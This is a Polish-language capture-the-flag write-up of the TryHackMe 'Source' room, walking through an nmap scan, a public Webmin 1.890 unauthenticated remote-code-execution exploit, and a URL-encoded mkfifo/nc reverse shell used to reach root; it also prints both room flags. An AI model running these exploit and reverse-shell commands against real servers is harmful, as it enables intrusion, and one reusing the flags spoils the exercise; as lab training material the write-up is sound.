




# Source
IP=10.10.21.98

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.21.98 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-28 11:31 EDT
Nmap scan report for 10.10.21.98
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 10000 (http)
## Skanowanie

### Port 10000
Rozpoczynamy od sprawdzenia portu 10000. Ze skanu narzędzia nmap wynika, że wersja serwisu http to MiniServ 1.890. Szukamy możliwych podatności:



Widzimy, że serwis jest prawdopodobnie podatny i można uzyskać nieautoryzowane zdalne wykonanie kodu (RCE). 

## Eksploitacja

Pobieramy [exploita](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py), nadajemy mu uprawnienia do wykonywania oraz uruchamiamy go:



Widzimy, że komenda "id" została wykonana. Używając kodowania URL odczytujemy flagę user.txt za pomocą poniższej komendy:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 cat%20/home/dark/user.txt
```



```
THM{SUPPLY_CHAIN_COMPROMISE}
```

## Zwiększenie poziomu uprawnień

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell. Wykorzystujemy do tego komendę w formacie URL (należy zmienić adres IP oraz PORT):

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Końcowa komenda:

```
python3 webmin-1.890_exploit.py 10.10.21.98 10000 rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20[IP]%20[PORT]%20%3E%2Ftmp%2Ff
```

Uzyskujemy dostęp do serwisu jako użytkownik root. Z pliku root.txt odczytujemy drugą flagę:



```
THM{UPDATE_YOUR_INSTALL}
```

Do zobaczenia na kolejnych CTF-ach!
